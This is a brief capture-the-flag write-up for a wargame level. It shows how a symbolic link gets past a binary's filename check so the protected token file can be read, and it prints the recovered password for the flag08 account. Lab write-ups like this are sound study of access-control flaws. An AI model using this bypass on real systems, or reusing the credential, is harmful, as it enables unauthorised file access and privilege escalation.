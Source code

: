 ## Step 1
> ls -l

We saw two files: an executable ``level08`` and a txt ``token``.

## Step 2
> strings level08

We saw in it the word ``token`` written in hard and juste below the sentence ``You may not access '%s'``. We conclued that the executable doesn't take any file named ``token``.

## Step 3
> ln -s ~/token /tmp/flag

> ./level08 /tmp/flag

By that, we created a symbolinc link to the ``token`` file and gave it to the executable. We got the password for flag08: ``quif5eloekouj29ke0vouxean``.

## Step 4
> su flag08

> getflag

We got connect in sudo mode with flag08. We were able to got the flag.
